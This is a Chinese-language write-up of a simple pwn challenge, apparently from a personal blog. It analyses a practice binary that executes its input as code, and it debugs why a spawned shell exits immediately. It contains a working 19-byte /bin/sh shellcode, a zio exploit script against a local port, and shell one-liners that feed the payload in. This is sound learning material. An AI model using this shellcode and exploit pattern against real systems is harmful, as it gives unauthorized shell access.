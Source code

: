 ```yaml
---
category: mutter
title: Pwn Challenge 0
---
```


## Pwn Challenge 0

> 遇到一个简单的Pwn，记录一下，有一些有意思的问题也放在这里。

### Pwn汇编代码

这个程序很简单，Binary在[这里]({{ site.url }}/resources/Binary/2017-05-06-pwn_1)，直接把它的反汇编贴在下面：

```
.text:0804847D                 push    ebp
.text:0804847E                 mov     ebp, esp
.text:08048480                 and     esp, 0FFFFFFF0h
.text:08048483                 sub     esp, 30h
.text:08048486                 mov     dword ptr [esp+8], 14h
.text:0804848E                 lea     eax, [esp+13h]
.text:08048492                 mov     [esp+4], eax    ; buf
.text:08048496                 mov     dword ptr [esp], 0 ; fd
.text:0804849D                 call    _read
.text:080484A2                 mov     byte ptr [esp+26h], 0
.text:080484A7                 lea     eax, [esp+13h]
.text:080484AB                 mov     [esp], eax      ; s
.text:080484AE                 call    _strlen
.text:080484B3                 mov     [esp+4], eax
.text:080484B7                 mov     dword ptr [esp], offset format ; "%d welcome\n"
.text:080484BE                 call    _printf
.text:080484C3                 lea     eax, [esp+13h]
.text:080484C7                 mov     [esp+2Ch], eax
.text:080484CB                 mov     eax, [esp+2Ch]
.text:080484CF                 call    eax
.text:080484D1                 leave
.text:080484D2                 retn
.text:080484D2 main            endp
```

### 分析

这个题的设定很刻意，现实中恐怕见不到这么明显的漏洞了。大概说一下，就是我们输入的内容会被当做指令执行，然而我们最多只能输入19个字节。输入的东西就直接是shellcode，也不用劫持控制流了（也劫持不了，19个字节不够覆盖到返回地址）。现在就考虑找一段shellcode。

[Exploit-db](https://www.exploit-db.com/exploits/41757/)在这时就显得非常有用了。可以直接找指定长度的shellcode。我找了一个19字节的：

```
; Shellcode : 
char shellcode[] = "\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80"
;================================================================================
; Python : 
        shellcode = "\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80"
;================================================================================
; Assembly language code : 
global _start
        _start:
                push 0bH
                pop eax
                cdq
                push edx
                push "//sh"
                push "/bin"
                mov ebx, esp
                int 80H
;================================================================================
```

然后用zio写一个Exp：

{% highlight python %}
from zio import *

IP = "127.0.0.1"
port = 10000

shellcode = '\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80\n'
conn = zio((IP, port))
#conn = zio("./pwn_1")
conn.write(shellcode)
conn.interact()
{% endhighlight %}

用ncat把漏洞程序挂上：

```
ncat -l 10000 -e ./pwn_1
```

### 问题

**一 IDA Pro反编译出错**

IDA Pro在遇到这种`call eax`指令时会出错。报

```
Decompilation failure:
80484CF: call analysis failed
```

想想也能想得通，相当于指令是运行时才确定的，它当然不能被静态分析了。

**二 打开的shell直接退出**

这个问题发生在手动输入shellcode的时候。如下：

```
python -c "print('\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80')" | ./pwn_1
```

这样直接就退出了。为了查看细节，我先

```
python -c "print('\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80')" > shellcode
```

然后在gdb中

```
r < shellcode
```

单步执行到`int 0x80`后，发现gdb提示

```
process 26793 is executing new program: /bin/dash
```

说明shell成功打开了呀。

我们再用strace追一下：

```
strace ./pwn_1 < shellcode
```

我们看到

```
execve("/bin//sh", [0], [/* 0 vars */]) = 0
```

然而，execve正常执行成功时是不会返回的。这里为什么返回了呢？上面用zio写的脚本在interact()后成功连接上了打开的shell，没有直接退出呀。

在[网上的一篇文章](http://www.purpleroc.com/md/2016-02-25@Thinking-About-Level2.html)的提示下，我gdb不设断点，直接`r < shellcode`可以看到出错提示：

```
[New process 28700]
/bin/dash: not found
[Inferior 2 (process 28700) exited with code 0177]
```

这个出错码0177和上面提到的文章里是一样的。情况很类似，不同的是我是通过`int 0x80`来调用execve，他是通过`system()`来调用。

来看一下在即将执行`int 0x80`时寄存器和栈的情况：

```
EAX: 0xb ('\x0b')
EBX: 0xbffff660 ("/bin//sh")
ECX: 0x0 
EDX: 0x0 
ESI: 0x0 
EDI: 0x0 
EBP: 0xbffff6a8 --> 0x0 
ESP: 0xbffff660 ("/bin//sh")

gdb-peda$ x/10x $esp
0xbffff660:     0x6e69622f      0x68732f2f      0x00000000      
```

感觉没问题呀，shellcode也是有效的。这是为什么呢？

后来我们进行了一个测试，编写一个简单地`/bin/zz`，功能是打印`123`，然后把 shellcode 改为运行这个程序，结果成功运行并打印。但是 shell 却一直起不来。

因为用`zio`能够成功，我们找来`zio`的源码看一下：

首先是`zio.write()`：

{% highlight python %}
def write(self, s):
    if not s: return 0
    if self.mode() == SOCKET:
        if self.print_write: stdout(self._print_write(s))
        self.sock.sendall(s)
    return len(s)
{% endhighlight %}

然后是`zio.interact()`：

{% highlight python %}
if self.mode() == SOCKET: # socket
    while self.isalive():
        try:
            r, w, e = self.__select([self.rfd, pty.STDIN_FILENO], [], [])
        except KeyboardInterrupt:
            break
        if self.rfd in r:
            try:
                data = None
                data = self._read(1024)
                if data:
                    if output_filter: data = output_filter(data)
                    stdout(raw_rw and data or self._print_read(data))
                else:       # EOF
                    self.flag_eof = True
                    break
            except EOF:
                self.flag_eof = True
                break
        if pty.STDIN_FILENO in r:
            try:
                data = None
                data = os.read(pty.STDIN_FILENO, 1024)
            except OSError as e:
                # the subprocess may have closed before we get to reading it
                if e.errno != errno.EIO:
                    raise
            if data is not None:
                if input_filter: data = input_filter(data)
                i = input_filter and -1 or data.rfind(escape_character)
                if i != -1: data = data[:i]
                try:
                    while data != b'' and self.isalive():
                        n = self._write(data)
                        data = data[n:]
                    if i != -1:
                        break
                except:         # write error, may be socket.error, Broken pipe
                    break
    return
{% endhighlight%}

上面就是一个标准的 select 模型，如果 socket 可读，就读出并打印到标准输出；如果标准输入可读，就读取标准输入，并发送到 socket。

看来并没有特别之处。不过`zio`类的构造函数倒是很长，改日继续分析吧。

### 附录

**验证shellcode是否有效**

将从Exploit-db上拿到的shellcode汇编代码保存为`shell.asm`，

```
nasm -f elf shell.asm
ld -o shell shell.o
# for 32 bit file
ld -m elf_i386 shell.o -o shell
```

执行一下，看看能否打开shell。